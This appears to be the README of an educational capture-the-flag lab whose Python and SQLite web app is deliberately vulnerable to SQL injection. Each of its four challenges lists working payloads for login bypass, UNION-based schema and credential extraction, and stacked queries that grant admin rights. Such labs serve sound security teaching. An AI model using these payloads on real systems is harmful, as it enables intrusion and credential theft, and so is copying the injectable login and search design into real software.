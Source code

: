 # CTF Lab - SQL Injection Challenge

This is an educational CTF lab designed to teach SQL injection vulnerabilities. The application is a Python web application with a SQLite backend that contains intentional security vulnerabilities for learning purposes.

## 🎯 Learning Objectives

- Understand SQL injection vulnerabilities
- Learn to identify vulnerable input fields
- Practice SQL injection techniques
- Understand the impact of SQL injection attacks
- Learn about database structure discovery

## 🚀 Quick Start

### Option 1: Docker Compose (Recommended)
```bash
# Clone this repository
git clone <repository-url>
cd ctf-sql-injection-lab

# Run the CTF lab
docker-compose up -d

# Access at http://localhost:5000
```

### Option 2: Docker Run
```bash
# Build the image
docker build -t ctf-sql-injection-lab .

# Run the CTF lab
docker run -p 5000:5000 ctf-sql-injection-lab

# Access at http://localhost:5000
```

## 🎮 CTF Challenges

### Challenge 1: Authentication Bypass
**Objective**: Log in without valid credentials using SQL injection.

**Hint**: The login form is vulnerable to SQL injection. Try using special characters in the username field.

**Payload Examples**:
- `testuser' OR '1'='1' --`
- `' OR 1=1 --`
- `testuser' OR 1=1 --`

### Challenge 2: Database Schema Discovery
**Objective**: Discover the database structure and table names.

**Hint**: Use the search function to execute UNION-based SQL injection queries.

**Payload Examples**:
- `' UNION SELECT sql, 'table', 'structure' FROM sqlite_master --`
- `' UNION SELECT name, 'table', 'type' FROM sqlite_master WHERE type='table' --`

### Challenge 3: Data Extraction
**Objective**: Extract sensitive information like usernames and passwords.

**Hint**: Use UNION queries to extract data from the users table.

**Payload Examples**:
- `' UNION SELECT username, password, 'admin' FROM users --`
- `' UNION SELECT username, 'password', 'hash' FROM users WHERE is_admin=1 --`

### Challenge 4: Admin Privilege Escalation
**Objective**: Gain admin privileges by manipulating the database.

**Hint**: Try to modify user privileges or create a new admin user.

**Payload Examples**:
- `'; UPDATE users SET is_admin=1 WHERE username='testuser' --`
- `'; INSERT INTO users (username, password, is_admin) VALUES ('hacker', 'password', 1) --`

## 🏗️ Application Structure

- **Login System**: Vulnerable to SQL injection in username/password fields
- **Search Function**: Vulnerable to SQL injection in search query parameter
- **Admin Panel**: Accessible to users with admin privileges
- **Message System**: Allows posting and viewing messages
- **User Management**: Admin can view and delete users

## 📚 Additional Resources

- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQL Injection Tutorial](https://portswigger.net/web-security/sql-injection)
- [SQLite Documentation](https://www.sqlite.org/docs.html)

## ⚠️ Disclaimer

This lab is for educational purposes only. The vulnerabilities are intentionally included for learning. Do not use these techniques on systems you don't own or have explicit permission to test.


Good luck and happy hacking! 🚀
